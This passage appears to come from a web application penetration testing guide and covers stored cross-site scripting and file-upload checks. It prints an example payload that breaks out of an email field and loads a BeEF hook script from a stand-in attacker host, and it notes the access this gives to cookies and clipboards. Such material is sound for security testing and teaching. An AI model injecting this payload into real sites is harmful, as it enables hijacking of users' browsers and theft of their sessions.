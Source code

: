The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.

**Example**: BeEF Injection in `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

When the user loads the page `index2.php`, the script `hook.js` is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.

> ![Beef Injection Example](images/RubyBeef.png)\
> *Figure 4.7.2-3: Beef Injection Example*
>
> This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.

#### File Upload

If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types.
